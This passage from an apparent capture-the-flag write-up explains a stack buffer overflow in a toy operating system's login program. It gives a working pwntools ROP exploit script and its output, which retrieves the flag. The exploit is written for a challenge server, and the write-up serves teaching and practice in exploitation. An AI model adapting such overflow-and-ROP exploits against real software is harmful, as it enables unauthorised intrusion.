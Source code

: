 ```c
  kprintf("\nLogged in! Have you heard about our syscalls yet?\n");
  kprintf("P.S. We value security very much, so your password is safely stored at 0x%x\n",password);
  kprintf("P.P.S Please don\'t try anything stupid with the value at 0x%x\n",register0x00000010);
  return '\0';
}
```

This version doesn't use `getline` anymore but it uses `getnline` with a length
of 0x400 to read data into a 16 byte stack buffer, which means that we still
have an exploitable buffer overflow. Awesome! We can exploit this by overwriting
the return address of `check_password`. This OS doesn't seem to implement
non-executable memory we could place some shellcode on the stack and jump to it,
but I chose to go with a ROP chain purely out of habit. The OS doesn't have
ASLR either so we don't need an infoleak, and `login` has plenty of gadgets.

```py
from pwn import *

r = remote('pwn.flagbot.ch', 8071)

rop = b''.join([
    # Set eax to 0x37
    p32(0x40004467), # pop eax; ret;
    p32(0x37),

    # Invoke syscall
    p32(0x400000FA), # int 0x30
])

r.sendlineafter(b'login: ', b'a')
r.sendlineafter(b'password for a', b'A' * 28 + rop)

r.interactive()
```

The target will crash immediately after returning from the syscall, but we don't
really care because by that time it will have already printed the flag.

```
$ python3 exploit.py
[+] Opening connection to pwn.flagbot.ch on port 8071: Done
[*] Switching to interactive mode

: AAAAAAAAAAAAAAAAAAAAAAAAAAAAgD\x007\x00\x00\x00@

Sorry my friend, this is the wrong password
Here is your flag: /kernel bjorn{4h_th3y_me4nt_syscall}
```

## Part 3 - kernel

> Seems like they finally distrust userland code. But apparently the kernel code is still littered with bugs.
